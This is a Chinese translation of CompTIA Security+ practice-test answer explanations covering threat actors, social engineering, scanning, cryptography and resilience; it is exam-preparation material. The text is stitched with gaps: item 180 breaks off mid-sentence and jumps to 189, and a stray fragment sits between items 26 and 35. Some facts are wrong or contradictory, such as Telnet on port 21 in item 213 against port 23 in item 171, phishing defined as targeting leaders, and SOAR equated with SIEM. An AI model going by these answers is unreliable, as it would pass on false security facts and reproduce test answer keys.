专有威胁情报（或称为封闭威胁情报）是指不公开可用的威胁情报。OSINT（开源威胁情报）是免费可用的。ELINT 是军方术语，指电子和信号情报。企业威胁情报是本题虚构的。

### 164. B

CompTIA 将威胁狩猎中的“机动（maneuver）”定义为如何像恶意用户一样思考，以帮助您识别环境中的潜在危害指标。在 Security+ 考试之外，这不是正常安全实践中的常用术语，尽管它在军事用途中确实会出现。由于该术语在 Security+ 考试之外并不常见，请确保你理解 CompTIA 的定义。情报融合将多个情报源整合在一起，威胁源用于提供威胁信息，而公告和简报通常与威胁源结合使用，以了解新的攻击、漏洞和其他威胁信息。

### 165. B

脚本小子是上述常见威胁行为者中资源最少的。一般而言，按资源从高到低排列，依次是国家行为者（资源最丰富）、有组织犯罪、黑客活动分子、内部行为者，最后是脚本小子（能力最弱且资源最少）。与任何类似排名一样，特定行为者之间可能存在一些差异，但在考试中，你应按该顺序记忆。

### 166. B

SYN 洪水是一种资源耗尽攻击，会耗尽目标系统上的所有可用会话。虽然 SYN 洪水可能构成 DDoS，但并未提及攻击使用多个源机器。也没有提到应用程序，因为 SYN 洪水针对的是系统的 TCP/IP 协议栈而非应用程序。同样没有提到漏洞，而 SYN 洪水也不需要漏洞，它只是试图压垮目标处理已打开连接的能力。针对 SYN 洪水的防护通常侧重于防止打开的连接导致资源耗尽，以及识别和阻断恶意主机。

### 167. A

借口（Pretexting）是一种社会工程学攻击，通过使用虚假动机和说谎来获取信息。在此场景中，渗透测试人员谎称了自己的身份和致电原因（冒充），并在索要个人信息前与用户建立了一些信任。水坑攻击利用目标用户都会使用的网站，并在其上放置恶意软件以达到目的。CompTIA 将“前置（prepending）”描述为“添加一个表述或短语”，而肩窥（shoulder surfing）则涉及越过某人的肩膀观察，或以其他方式观察其输入密码等敏感信息。

### 168. C

你可能熟悉“war driving（战争驾驶）”这个术语，但随着无人机的广泛使用，“war flying（战争飞行）”正变得越来越常见。虽然渗透测试人员不太可能驾驶直升机或飞机飞越目标地点，但配备合适硬件的廉价无人机可以提供关于物理安全和无线网络覆盖范围的有用信息。Droning 和 aerial snooping 是本题虚构的，而 Air Snarf 是一种用于在易受攻击的无线网络上捕获用户名和密码的旧工具。

### 169. C


许多组织拥有无法修补或升级的遗留平台，但这些平台仍是其业务的重要组成部分。安全专业人员经常被要求提出既能保障系统安全又能使其保持运行的方法。常见选项包括：将设备移至隔离的虚拟局域网（VLAN）；断开设备与网络的连接，并确保它们不会被重新接入；以及使用防火墙或其他安全设备，以确保遗留系统免受攻击，并且不能浏览互联网或执行其他可能导致入侵的行为。

#### 170. B.
根据 ISAC（信息共享与分析中心）国家委员会的说法，“信息共享与分析中心（ISAC）帮助关键基础设施所有者和运营者保护其设施、人员和客户免受网络和物理安全威胁及其他危害。ISAC 收集、分析并向其成员传播可操作的威胁信息，并为成员提供降低风险和增强韧性的工具。” IRT 是事件响应团队，Feedburner 是谷歌的 RSS 源管理工具，而“垂直威胁源”并非行业术语。

#### 171. B.
TCP 端口 23 通常与 Telnet 相关联，Telnet 是一种未加密的远程 shell 协议。由于 Telnet 以明文（clear/plain text）发送其身份验证和其他流量，因此不应使用它，而 Lucca 应将其视为涉及不安全协议的配置问题。

#### 172. B.
权限提升攻击侧重于获取额外权限。在本例中，Cameron 利用对系统的物理访问权限对其进行了修改，从而使他能够以非特权用户的身份执行权限提升攻击。特洛伊木马需要一个看似无害的文件，拒绝服务攻击则会阻止对系统或服务的访问，交换文件（或分页文件）是当内存不足时用于容纳内存内容的磁盘空间。交换文件可能包含敏感数据，但“交换文件攻击”这一术语并不常用。

#### 173. C.
对于 Security+ 考试，你应能够描述和解释威胁行为者的常见属性，包括他们是内部威胁还是外部威胁、其精通程度或能力、其资源或资金，以及他们的意图或动机。许多威胁行为者的经验年限难以确定，也不是衡量其能力的直接方法，因此不是用于评估他们的常见属性。

#### 174. B.
尽管通常鼓励聘请领域专家，但要求第三方审查专有算法则不然。许多机器学习算法很敏感，因为它们是组织竞争优势的一部分。确保数据安全且质量足够、确保安全的开发环境以及要求变更控制都是常见的人工智能（AI）/机器学习（ML）安全实践。

#### 175. A.
白队充当裁判并提供网络安全演练和竞赛的监督。选项 B 和 C 可能让你联想到白盒和灰盒测试，但它们只是用来迷惑你的。网络安全团队通常以颜色命名，如最常见的红色、蓝色和紫色，以及 Security+ 考试大纲提到的白队。演练中的防御者属于蓝队。

#### 176. C.
错误赏金计划日益常见且可能非常丰厚。漏洞赏金网站将漏洞研究人员与愿意为其软件或服务问题信息付费的组织匹配。攻击者有时会要求赎金，但这不是勒索，因为它是在奖励制度下自愿支付的。零日披露发生在漏洞被披露而组织此前未被告知且未获允许修复问题时。最后，你可能觉得 10,000 美元是一笔收入，但该术语不作为技术术语使用，也不出现在考试中。

#### 177. A.
Linux 权限可以以数字形式设置，777 会将用户、组和其它用户全部设置为对整个`/etc`目录具有读取、写入和执行访问权限。当权限无法正常工作时，这种设置权限的方式很常见，但会暴露数据或使二进制文件可被不应访问的用户执行。在为系统设置权限时，请记住遵循最小权限原则：仅应配置角色或任务所需的权限。

#### 178. B.
足迹收集是收集有关计算机系统或网络信息的过程，可能涉及主动和被动技术。映射、指纹识别和聚合不是该实践的正确或常用术语。

#### 179. C.
在拨号调制解调器大量使用时，黑客会进行战争拨号练习，拨打大量电话号码以寻找会响应的调制解调器。当无线网络成为常态时，使用了同类型的语言，导致出现战争步行、战争驾驶甚至战争飞行等术语。其余选项是编造的，但你应记住 Security+ 考试期望你了解战争驾驶和战争飞行。

#### 180. B.
照明和公用事业系统，以及 SCADA、PLC、CNC、科学设备和类似设备都是运营技术类型。由于这是导致拒绝服务的分布式攻击，因此是分布式拒绝服务（DDoS）攻击。OT 系统

#### 189. C.
渗透测试的侦察阶段涉及收集有关目标的信息，包括域名信息、系统信息以及员工的详细信息，如电话号码、姓名和电子邮件地址。

#### 190. A.
安吉拉冒充了送货服务的实际员工以获得进入公司的权限。公司制服是面对面社会工程学中非常有用的元素。网络钓鱼是一种针对组织领导者的网络钓鱼攻击类型。水坑攻击在目标群体经常使用的网站上部署恶意软件或其他攻击工具。Security+ 考试对前置的定义很模糊，可能意味着多种含义。当你在考试中看到前置时，通常应表示“在文本前面添加某物”。

#### 191. D.
通过灰色市场获取可能导致缺乏厂商支持、缺乏保修覆盖以及无法验证设备来源。尼克应表达对供应链的担忧，如果他的设备需要来自可信来源或供应商且有真正支持，他可能需要改变组织的采购实践。

#### 192. B.
XML 注入通常通过修改发送到基于 XML 的 Web 服务的 HTTP 查询来完成。审查 Web 服务器日志以查看发送了什么内容并分析潜在攻击，将帮助克里斯蒂娜查看日志中是否可见意外的用户输入。Syslog、身份验证日志和事件日志不太可能包含有关 Web 应用程序的信息，从而显示 XML 注入攻击的证据。

以下是问题 193–195 的场景。

弗兰克是小型公司的首席 IT 人员，已将其公司的基础设施从本地数据中心迁移到基于云的基础设施即服务（IaaS）提供商。最近他收到了报告称其网站响应缓慢且有时无法访问。弗兰克认为攻击者可能正在对其组织进行拒绝服务攻击。

#### 193. C.
弗兰克的最佳选择是审查其云托管提供商提供的抗拒绝服务和其他安全工具，并适当使用它们。主要的 IaaS 提供商拥有多种安全工具，可帮助检测和防止 DoS 攻击导致其基础设施上托管的站点宕机。联系云服务提供商的 ISP 是行不通的，因为 ISP 与云提供商合作，而不是与弗兰克合作！云服务提供商可能能够协助弗兰克，但他们最有可能指示他使用他们已提供的现有工具。

#### 194. C.
由于弗兰克使用的是云服务提供商的 Web 服务，他需要审查他们捕获的日志。如果他尚未配置日志，他需要这样做，然后他需要一种服务或能力来分析他关心的流量类型。Syslog 和 Apache 日志都存在于传统的 Web 主机上，如果弗兰克在 IaaS 环境中运行自己的 Web 服务器，则它们是合适的。

#### 195. B.
最有用的数据可能来自 IPS，即入侵防御系统。他将能够确定攻击是否为拒绝服务（DoS）攻击，并且 IPS 可能帮助他确定拒绝服务攻击的来源。防火墙可能提供一些有用信息，但只会显示流量是否被允许，而不会分析流量以获取攻击信息。漏洞扫描器会指出其应用程序或服务器是否存在问题，但不会识别此类攻击。反恶意软件可以帮助在系统上找到恶意软件，但对 DoS 攻击无效。

#### 196. D.
合同条款、审计和安全审查都是在与执行系统集成工作的供应商合作时降低第三方风险的常见手段。如果要使用第三方供应商的数据中心或托管服务，通常会请求 SOC（服务组织控制）报告。

#### 197. B.
使用受污染数据训练人工智能（AI）或机器学习（ML）系统是一个重大问题。埃利亚斯需要确保其网络上的流量典型且无恶意，以确保 AI 不会认为恶意流量对其网络是正常的。

#### 198. C.
黑客行动主义者最常见的动机是发表政治声明。声誉提升通常与脚本小子相关，而经济利益最常见的是有组织犯罪或内部威胁的目标。收集高价值数据是国家行为者和有组织犯罪的典型行为。

#### 199. D.
预测分析工具使用大量数据，包括有关安全趋势和威胁的信息、来自各种安全工具和其他来源的大型安全数据集以及行为模式，以预测和识别恶意和可疑行为。

#### 200. C.
身份欺诈和身份盗窃通常使用社会安全号码作为身份盗窃的一部分。尾随是指跟随某人通过安全门或闸门，以便不必出示凭证或代码，而冒充是社会工程技术，即声称自己是别人。勒索是一个潜在答案，但最常见的用途是身份欺诈。

#### 201. A.
SOAR 工具，如安全信息和事件管理（SIEM）工具，高度专注于安全运营。它们包括威胁和漏洞管理、安全事件响应以及安全运营和自动化工具，但不提供源代码分析和测试工具。

#### 202. B.
Security+ 考试大纲明确将这些项目列为威胁向量。虽然还有许多其他向量，但你应熟悉直接访问、无线、电子邮件、供应链、社交媒体、可移动媒体和云作为考试的向量。

#### 203. C.
虽然乍一看可能很奇怪，但 SourceForge 和 GitHub 都用于存放示例漏洞利用代码以及威胁情报分析人员可能觉得有用的其他信息。它们不是暗网的一部分，也不是自动指标共享（AIS）来源或公共信息共享中心。

#### 204. B.
信任而非验证用户输入是不当输入处理的根本原因。所有输入都应被视为潜在恶意，因此被视为不可信。应执行适当的过滤、验证和测试，以确保仅接受和处理有效的数据输入。

#### 205. C.
该代码是一个 PowerShell 脚本的示例，用于将文件下载到内存中。通过阅读脚本就可以排除上传选项，因为示例脚本中提到了下载。由于我们看到的是下载一个字符串，而不是文件和位置，因此可以猜测这是无文件恶意软件的示例。

#### 206. C.
会话 ID 对于不同的用户和系统应当是唯一的。一种非常基本的会话重放攻击类型是向受害者提供一个会话 ID，然后在受害者使用链接并完成身份验证后使用该会话 ID。诸如会话超时、加密会话数据，以及在会话密钥中编码源 IP、主机名或其他标识信息等保护措施，都有助于防止会话重放攻击。

#### 207. B.
Security+ 考试大纲列出了七大类影响类别，包括数据丢失、数据泄露和数据外泄。数据修改并未列出，但它是 CIA 三元组中完整性方面所关注的一个问题。

#### 208. C.
在所列出的资源中，学术期刊是最慢的，因为大多数知名期刊都涉及审稿流程。尽管学术期刊可能是有用的资源，但它们通常不是最新消息的来源。你还应了解的其他资源包括供应商网站、会议、社交媒体和 RFC（征求意见稿）。

#### 209. C.
漏洞扫描和端口扫描通常可以通过查看日志中一系列被连接的端口来检测到。在这种情况下，该日志是通过使用 OpenVAS 扫描器扫描系统而生成的。没有迹象表明存在成功的登录或其他黑客攻击尝试，服务启动会显示在`messages`日志中，而不是`auth`日志中。重启也会显示在`messages`日志中，而不是`auth`日志中。

#### 210. C.
虽然立即升级可能很诱人，但阅读并理解漏洞的 CVE 信息是一种良好的最佳实践。一旦 Charles 理解了该问题，他就可以根据针对该特定问题的建议进行修复。禁用 PHP 或 Web 服务器会中断服务，而且在这种情况下，只有比 5.4 更新的 PHP 版本才包含 Charles 所需的补丁。

#### 211. D.
尽管 80 和 443 是最常见的 HTTP 端口，但当需要非标准端口时，通常会在 8080 端口上运行额外的 Web 服务器。SSH 通常应在 22 端口，RDP 在 3389 端口，MySQL 在 3306 端口。

#### 212. B.
一旦此问题得到修复，Rick 应调查为什么系统运行的是 2007 年的插件。在许多情况下，当你发现此类易受攻击的组件时，这表明组织或系统及应用程序维护流程中存在更深层次的问题。如果 Rick 认为存在持续攻击或已发生成功攻击，安装 Web 应用防火墙（WAF）或查看入侵防御系统（IPS）日志可能会有所帮助，但问题中并未提及这些情况。没有任何受损害的迹象，问题中仅仅是一个完全过时的插件版本。如果你想要一个包含此类易受攻击插件的示例系统进行测试，可以下载 2015 年发布的 Open Web Application Security Project（OWASP）破损 Web 应用虚拟机。它包含大量完全过时的应用程序和服务供你练习。

#### 213. C.
在运行漏洞扫描时，发现网络设备同时运行 SSH 和 TCP 443 端口上的 Web 服务是非常典型的情况。在没有发现任何已证实的问题时，Carolyn 只需记下她看到了这些服务即可。Telnet 运行在 21 端口，未加密的 Web 服务器在大多数情况下运行在 TCP 80 端口，而 Windows 文件共享使用多种端口，包括 TCP 135–139 和 445。

#### 214. B.
配置审查，无论是使用自动化工具还是手动验证，都是一种有用的主动式方法，可以确保不必要的端口和服务不可访问。配置管理工具也有助于确保预期配置到位。被动或主动的网络数据包捕获都无法显示未被访问的服务，这意味着开放端口可能被遗漏，而日志审查同样无法显示所有开放端口。

#### 215. C.
错误被视为一种漏洞，因为它们通常提供有关系统或其配置的额外详细信息。它们通常不能直接用于利用系统或使系统崩溃。

#### 216. D.
这看起来像是你的网络 DNS 服务器已被入侵，并将用户导向虚假网站的情况。特洛伊木马是与合法程序捆绑的恶意软件。IP 欺骗是使用虚假的 IP 地址，但该场景中并未描述这种情况。事实上，用户甚至没有输入 IP 地址——他们输入的是 URL。点击劫持涉及诱骗用户点击并非其本意的内容。

#### 217. C.
这是典型的域名抢注（typo squatting）示例。该网站只差一两个字母；攻击者希望真实网站的用户输错 URL，并被带到他们的虚假网站。会话劫持是接管已认证的会话。跨站请求伪造是向网站发送伪装成来自可信、已认证用户的虚假请求。点击劫持试图诱骗用户点击并非其本意的内容。

### 第 2 章：架构与设计

#### 1. C.
图中显示了服务和端口，但未列出协议。Ben 应询问这些服务是基于 TCP 还是 UDP，因为错误的猜测会导致服务无法正常运行，而开放不必要的协议可能会无意中造成暴露或风险。子网掩码在客户端网络中需要多个系统时显示，服务名称对于防火墙规则并非必需，API 密钥也不应存储在这样的文档中。

#### 2. A.
正确答案是 Open Web Application Security Project（OWASP）。它是 Web 应用程序安全的事实标准。北美电力可靠性公司（NERC）关注发电厂安全，Trusted Foundry 是用于描述计算机 IC 安全供应链的术语，而 ISA/IEC 标准用于保护工业自动化和控制系统（IACSs）。

#### 3. B.
供应商多样性带来两个安全好处。首先是如果某个供应商停止运营，不会存在单点故障。第二个好处是每个供应商都有特定的方法和算法来检测恶意软件。如果你在所有需要恶意软件检测的位置都使用同一供应商，那么该供应商方法中的任何缺陷或弱点都会在网络中持续存在。使用单一供应商意味着该供应商方法或技术中的任何弱点都可能影响整个系统或网络。供应商分叉（vendor forking）不是行业术语，而且这并非中立行为；供应商多样性可以改善安全性。

#### 4. B.
在这种场景下，最适合 Scott 需求的是一个带有主 NAS 完整副本的第二个网络附加存储（NAS）设备。在故障场景中，辅助 NAS 可以直接取代主 NAS，同时替换单个磁盘甚至整个 NAS。基于磁带的备份需要更长的恢复时间，无论它们是完整备份还是增量备份，尽管在某些情况下增量备份可能花费更多时间，因为按顺序更换磁带会增加恢复过程的时间。最后，基于云的备份系统在 Scott 担心本地灾难时会有用，但会比本地相同的 NAS 更慢，因此无法满足 Scott 的主要需求。

#### 5. C.
在复杂环境中，恢复顺序可能非常重要，因为存在系统依赖性。恢复顺序还可以确保在系统上线之前已部署适当的安全控制。如果数据中心电源系统设计得当，它应该能够处理系统上线而不会出现故障。由于系统故障导致的第二次中断意味着 Yasmine 尚未确定中断发生的原因，这使得恢复可能变得危险或有问题。最后，灭火系统只应在实际火灾或检测到烟雾等火灾前兆时启动，而不是因为热负荷增加。

#### 6. B.
气隙（Air gapping）指的是服务器不在网络上。这意味着服务器与网络之间字面上存在“空气”。这可以防止恶意软件感染备份服务器。单独的 VLAN 或物理网段可以增强安全性，但不如气隙有效。蜜罐用于检测针对网络的攻击，但在这种场景下对恶意软件并不能提供有效的防御。

#### 7. C.
Windows 图片密码要求你在图片上点击特定位置。这是一个“你能做什么”因素的示例。地理位置或网络位置是“你在哪里”的示例，而“你所展示的东西”通常是一种个性特征，“你认识的人”则正如其字面意思：一个能识别你个人身份的人。

#### 8. C.
哈希函数将可变长度的输入转换为固定长度的输出，同时最小化多个输入产生相同输出（碰撞）的机会。它们还需要计算速度快。哈希不应该是可逆的；它们是单向函数！

#### 9. B.
确保第三方安全销毁公司正确执行其任务的最常见方式是签署具有适当条款的合同，并确保他们对其被要求销毁的材料进行认证。第三方的手动现场检查有时作为认证的一部分进行，但联邦认证并不是常见流程。要求对每份销毁文件拍照会创建新的副本，从而使该过程存在缺陷。

#### 10. A.
使用服务器端执行和验证两者都需要更多资源，但可以防止客户端篡改应用程序和数据。对于 Olivia 描述的需求，服务器端执行和验证是最好的选择。

#### 11. D.
Arduino 是一种微控制器，非常适合嵌入式系统的定制开发。它们体积小、价格低廉且常见。与 Raspberry Pi 不同，它们不是小型计算机，从而降低了整体被攻破的风险。定制的现场可编程门阵列（FPGA）通常比 Arduino 更复杂且昂贵，而再利用的台式电脑会带来电脑可能包含的所有潜在问题，例如易受攻击的操作系统或软件。

#### 12. D.
数字签名使用签名者的私钥创建，从而可以使用其公钥进行验证。

#### 13. C.
增加密钥的一个比特会使所需工作量翻倍。原始工作量会有 2^128 种潜在解，而增加的密钥长度需要 2^129。现实生活中，密钥长度不会增加 1 位；相反，它们通常以 2 的倍数增加，例如从 128 到 256，或从 1024 到 2048。

#### 14. C.
密钥拉伸用于增强弱密钥。实现它的一种方法是重复使用哈希函数或分组密码，增加攻击者攻击由此产生的哈希或加密数据所需付出的努力。其余选项都是编造的。

#### 15. A.
盐是在字符串哈希之前添加的值。盐会被存储，以便在未来使用密码时将其添加到密码中以与哈希进行比较。由于每个盐都是唯一的，这意味着攻击者需要为每个盐生成唯一的彩虹表才能有效攻击存储的哈希。对于高价值密码，这可能是值得的，但对于批量密码列表，这不是一种合理的攻击方法。


- 16. **C.** Ian 将使用 Michelle 的公钥加密消息，以便只有她可以使用自己的私钥读取。如果他想签名消息，他可以使用自己的私钥，而 Michelle 可以使用他的公钥验证他的签名。Ian 和 Michelle 都不应透露他们的私钥。

- 17. **A.** 椭圆曲线密码学（ECC）更快，因为它可以使用较小的密钥长度来实现与更长 RSA 密钥相似的安全级别（一个 228 位椭圆曲线大致相当于一个 2,380 位 RSA 密钥）。使用相同的密钥进行加密和解密对于对称加密密码系统是正确的；然而，这两者都不是对称的。只要有合适的密码库或编程，两种算法都可以在旧处理器上运行，尽管两者都会变慢。两者都可用于数字签名。

- 18. **A.** 完美前向保密（PFS）用于更改用于加密和解密数据的密钥，确保即使发生泄露，也只有极少量数据会被暴露。对称加密使用单一密钥。量子密钥轮换和 Diffie-Hellman 密钥调制都是为此问题编造的术语。

- 19. **A.** 核对访客的身份证件与其登记簿记录可以确保他们记录的信息正确，并且个人的身份证件与其自称身份相符。生物特征扫描仅对已注册的个人有效，这意味着许多访客可能没有注册生物特征数据。双人完整性控制只有在担心警卫允许未经授权的个人进入设施时才有用。安全机器人通常无法根据身份证件和登记记录验证访客身份。随着它们变得更先进，这可能会改变！

- 20. D. 蜜罐旨在通过表现为成熟且准备好被利用的安全漏洞来吸引黑客。蜜网是网络蜜罐。这种安全技术用于在不暴露关键网络资源的情况下观察黑客行动。入侵检测系统（IDS）用于检测可能表明入侵或攻击的活动。主动检测和虚假子网都不是常见的行业术语。

- 21. C. SCADA，即监控控制和数据采集系统，常用于管理发电厂等设施。其余选项都是编造的。

- 22. D. 素数分解算法和椭圆曲线密码学被认为容易受到未来量子计算驱动的对密码系统的攻击。虽然这在目前很大程度上是理论性的，但量子加密可能是应对当前密码算法和系统量子攻击的唯一合理对策。

- 23. C. Geoff 正在寻找一个温备站，它拥有他需要的部分或全部基础设施和系统，但没有数据。如果发生灾难，Geoff 可以将他需要的或想要的任何设备连同其组织的数据一起带到该站点以恢复运营。热备站是完全功能的环境，拥有运营组织所需的所有硬件、软件和数据。它们维护和运行成本高昂，但被不能承受停机风险的组织使用。冷备站是可以上线的位置，但没有系统；冷备站通常可以接入电力和带宽，但在灾难后需要完全配备才能运营，因为它们只是租赁空间。RTO 是恢复时间目标，用于衡量恢复运营所需的时间；它不是一种灾难恢复站点类型。

- 24. B. 如果 Olivia 想确保第三方无法修改物联网（IoT）设备的操作系统，要求操作系统更新使用签名和加密的固件是阻止除最先进威胁之外所有威胁的有效手段。设置默认密码意味着通用密码会被知晓。检查新固件版本的 MD5sum 将帮助管理员验证固件的合法性，但签名和加密的固件是更强的控制措施。最后，定期修补可能有助于保护设备，但不会防止操作系统修改。

- 25. B. 在量子加密和解密技术成为主流后，人们普遍认为非量子密码系统将相对容易被攻破，这意味着量子密码学将是安全的必要条件。量子比特是量子位，不是速度的度量；量子加密将在后量子加密世界中成为相关解决方案；即使非常长的 RSA 密钥也预计会受到攻击。

- 26. B. 计数器模式（CTR）通过使用不重复的序列生成密钥流块，将分组密码变成流密码。这允许数据流式传输，而不是等待块准备好发送。它不会执行相反操作，即将流密码变成分组密码，也不会逆转加密过程（解密）。公钥无法解锁私钥；它们都是非对称加密过程的一部分。

不太可能阻止他们访问系统，并且全盘加密（FDE）无法缓解此威胁，因为系统处于实时运行状态，这意味着磁盘在使用时会解密。

- 35. B. 高级加密标准（AES）和数据加密标准（DES）都是分组密码。这意味着它们将明文符号的组（块）一起作为单个块加密。如果你知道 AES 或 DES 是分组密码，你可以在这里排除一半的选项。如果你知道分组密码作用于符号组或文本块，你也可以将一半选项排除为错误。

- 36. A. 硬件安全模块（HSM）是存储电子商务服务器私钥最安全的方式。HSM 是一种保护和管理数字密钥的物理设备。全盘加密（FDE）会保护电子商务服务器上的数据，但不会帮助存储密钥。完全加密电子商务服务器驱动器也很困难，因为驱动器需要在使用中才能使电子商务功能正常运行。自加密驱动器（SED）仅仅是自动全盘加密。软件定义网络（SDN）不会解决此场景中的问题，因为它通过软件配置网络，并且不提供安全的密钥存储。

- 37. B. Transit 网关是用于连接 VPC（虚拟私有云）到本地网络的转接中心。你可以在 `docs.aws.amazon.com/vpc/latest/tgw/what-is-transit-gateway.html` 阅读更多关于 Transit 网关的信息。IBM 使用相同的术语，但用于非常特定的内部云连接。

- 38. C. 你应该实现一个暂存服务器，以便代码可以部署到中间暂存环境。这将允许测试安全功能，并检查代码是否与整个系统集成。使用第三方库和软件开发工具包（SDK）可以帮助减少代码中的错误和漏洞。沙箱用于隔离特定环境，而虚拟化不会缓解此风险。即使生产服务器是虚拟化的，风险也相同。最后，部署策略是个好主意，但它们不是缓解此特定风险最有效的方式。

- 39. C. Ian 应该担心攻击者可能能够重定向发送到 VoIP 电话的短消息服务（SMS）消息。这个潜在问题是一些多因素部署不允许向环境中的 VoIP 电话发送短信的一个原因，一些组织不允许短信作为选项，而是要求硬件令牌或基于应用程序的多因素身份验证。Vishing 是一种通过语音进行的网络钓鱼，语音邮件劫持会通过转发电话将语音邮件重定向到另一个邮箱，而弱多因素代码注入是为此问题编造的。

- 40. A. 基线配置，根据 NIST 800-53：“基线配置为信息系统的未来构建、发布和/或更改提供基础。基线配置包括有关信息系统组件的信息（例如，安装在工作站、笔记本电脑、服务器、网络组件或移动设备上的标准软件包；操作系统和应用程序的当前版本号和补丁信息；以及配置设置/参数）、网络拓扑以及这些组件在系统架构中的逻辑位置。维护基线配置需要在组织信息系统随时间变化时创建新的基线。信息系统的基线配置反映了当前的企业架构。”

41. B. HVAC系统是系统和基础设施可用性的重要组成部分。它们也是针对物联网（IoT）或网络连接设备的攻击者的目标。它们并不是用于社会工程攻击的常见目标，尽管它们可以被那样使用。它们不是组织的主要防御线。

42. B. 对称加密通常比非对称加密更快。这就是为什么许多协议使用非对称加密来交换对称密钥，然后在后续交易中使用该密钥的原因。它并非更安全，密钥长度不是对称加密和非对称加密之间有意义的差异，并且如果需要保持保密性，对称加密的密钥分发对于使用对称加密的更大群体来说更具挑战性，因为每对潜在的通信者都需要不同的对称密钥。

43. C. 熵是不确定性的度量。拥有熵源（或随机性）是伪随机数生成器（PRNG）中的关键要素。一些伪随机数生成器依赖于键盘、鼠标或其他人为生成的输入作为熵数据的来源。

44. A. 在软件即服务（SaaS）模式下，消费者能够通过互联网使用云服务提供商提供的应用程序。SaaS是一种订阅服务，软件按订阅方式许可。平台即服务（PaaS）提供构建应用程序和服务的框架和底层工具。基础设施即服务（IaaS）提供整个网络和系统基础设施的组件。混合模式同时使用云和本地托管系统。

45. C. 资源策略与资源相关联，允许您确定哪些主体可以访问该资源以及他们可以在其上执行哪些操作。资源策略不用于设置消费限制。

46. D. 存储区域网络（SAN）复制将一个存储库的内容复制到另一个存储库，例如组织的中央SAN环境到远程SAN，在硬件或块级别进行。

47. C. 快照是虚拟机（VM）在某一时间点的映像。定期对虚拟系统进行快照是标准做法，以便您可以将该系统恢复到最后已知良好的状态。沙箱是隔离系统或软件的过程。超visor是虚拟环境与硬件交互的机制，而弹性是系统扩展的能力。

48. D. RAID 5 级是带分布式奇偶校验的磁盘条带化。它可以承受任何单个磁盘的丢失。RAID 0 是磁盘条带化；它不提供任何容错。RAID 1 是镜像。它确实可以防止单个磁盘丢失，但不是通过分布式奇偶校验。RAID 3 是带专用奇偶校验的磁盘条带化。这意味着包含所有奇偶校验位的专用驱动器。

49. D. 法拉第笼以物理学家迈克尔·法拉第命名，涉及在区域或设备周围放置金属丝网以阻挡电磁信号。VLAN可以分割网络，但不会阻挡电磁干扰（EMI）。软件定义网络（SDN）虚拟化网络，但不能防止EMI。受信任平台模块（TPM）用于加密应用。

50. B. 正确答案是防撞柱。它们是大型物体，通常由混凝土或类似材料制成，专门设计用于防止车辆通过。大部分闸门可以用车辆突破。保安是个好主意，但他们无法阻止车辆撞击建筑物。安全摄像头会提供犯罪证据，但不会防止犯罪发生。

51. A. 将电缆锁连接到计算机并将其锁在桌子上会使某人偷走计算机变得更加困难。全盘加密（FDE）不会阻止有人偷走计算机，强密码也不会。签到表是个好主意，可能阻止一些盗窃，但它不是在此场景中提供的最佳防盗方法。

52. B. 正确答案是结合防尾随门使用双因素认证。通过在一扇门使用智能卡（类型 II 认证），在另一扇门使用 PIN 号码（类型 I 认证），Joanne 将强双因素认证与物理安全相结合。智能卡单独使用，或与围栏配对，仍然是单因素认证。视频监控虽然通常是个好主意，但不会有助于双因素认证。

53. A. 基线化是建立安全标准的流程。从原始基线配置的更改被称为基线偏差。安全评估或审计检查安全，但不建立安全标准。加固是保护给定系统的过程，但不建立安全标准。规范化是从数据库中删除冗余条目的过程。

54. A. 伪遥测是为使攻击者相信蜜罐系统是合法系统而创建的遥测。构建可信的蜜罐需要使系统尽可能逼真。Deepfakes 是人工智能（AI）创建的视频，使其看起来像是个人说了或做了他们从未实际执行过的行为。其余选项是为此问题编造的。

55. A. RAID 1+0，或 RAID 10，是镜像数据集（RAID 1），然后进行条带化（RAID 0）：“镜像的条带”。RAID 6 是带双重奇偶校验（分布式）的磁盘条带化，RAID 0 只是条带化，RAID 1 只是镜像。

56. D. 规范化是从数据库中删除重复或冗余数据的过程。通常有四个规范化级别，从最低的 1NF（即重复最多）到最高的 4NF（即重复最少）。尽管数据库完整性很重要，但这不是问题中描述的内容。此外，完整性检查通常是指检查文件的完整性。去配置化是虚拟化中删除虚拟系统（服务器、工作站等）并收回这些资源的术语，在身份管理上下文中意味着删除帐户或权限。基线化涉及设定安全标准。

57. C. 远程身份验证拨入用户服务（RADIUS）提供身份验证、授权和记账，这构成了 AAA 系统中的三个关键要素。OpenID 是身份验证协议，但本身不提供授权。轻量级目录访问协议（LDAP）是一种目录服务，安全断言标记语言（SAML）是用于进行安全断言的标记语言。

58. D. TLS 检查（通常称为 SSL 检查，因为术语 SSL 仍被广泛、如果不正确地使用）涉及拦截客户端和服务器之间的加密流量。TLS 拦截设备充当在线攻击，解密流量以扫描和分析它，通常用于恶意软件或其他攻击迹象，然后对其进行加密以发送到其目的地。正如您可能预期的那样，TLS 检查既有合法用途也有恶意用途。

59. D. 在大多数情况下，这些选项都不实用。摧毁无人机是非法的私人财产破坏。对无人机使用的开放频率进行干扰是不允许的，可能会导致联邦贸易委员会（FTC）采取行动，并且联系联邦航空管理局（FAA）请求将公司上空的空域宣布为禁飞区在大多数情况下 FAA 并不支持。这意味着 Diana 很可能需要以其他方式处理无人机威胁的潜在风险。

60. B. Isaac 已构建并配置了一个系统，其中系统的非持久性会带来取证挑战。他的组织需要考虑如何复制受损或有问题的临时系统并将其存储在安全位置以进行取证分析。这不是一个取证抗性系统——如果他有副本，他就能分析它。Live-boot 介质在此示例中未提及或使用，而终止并驻留（TSR）是在 DOS 操作系统中运行的一种程序类型，它将控制权返回给操作系统但仍保留在内存中，以便在需要时可以轻松再次运行。

61. D. 存储过程是实现标准化 SQL 的最佳方式。程序员不必编写自己的 SQL 命令，只需调用数据库管理员创建的存储过程即可。正式的代码检查可能会检测到缺乏安全实践和防御措施，但不会阻止基于 SQL 的攻击。要求使用存储过程的策略可能有帮助，但不是通往解决方案的更直接途径。最后，敏捷编程是一种快速开发应用程序的方法，不会决定 SQL 命令如何创建。

62. C. 云和虚拟化环境中的服务集成可能非常复杂，可能涉及数据、API 和其他类型的应用程序集成。集成平台允许组织使用标准化工具，而不是自行构建和维护。这使他们能够专注于实际集成而不是底层系统，节省时间和精力。由于集成平台通常还具有针对常见服务和 API 的预先存在的工具，因此可以为采用它们的组织节省大量时间。当然，这也引入了另一个需要评估和保护的平台。

63. B. 当虚拟化发展到 IT 无法有效管理时，该状况被称为 VM 爆炸。VM 过载和 VM 扩散是为此问题编造的，而 VM 僵尸是指正在运行并消耗资源但已不再有用途的虚拟机的术语。

